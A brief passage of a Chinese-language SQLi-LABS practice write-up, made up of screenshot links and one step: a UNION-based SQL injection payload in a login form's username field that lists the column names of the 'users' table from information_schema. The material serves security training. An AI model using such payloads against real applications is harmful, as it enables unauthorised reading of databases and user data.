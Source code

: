 ![image-20210926170831305](../../images/SQLi-LABS/image-20210926170831305.png)

+ 现在获取users表中的所有列名。

```sql
uname='union+select+database(),((select+group_concat(column_name)+from+information_schema.columns+where+table_schema=database()and+table_name+='users'))--+&passwd=admin&submit=Submit
```

![image-20210926171225012](../../images/SQLi-LABS/image-20210926171225012.png)
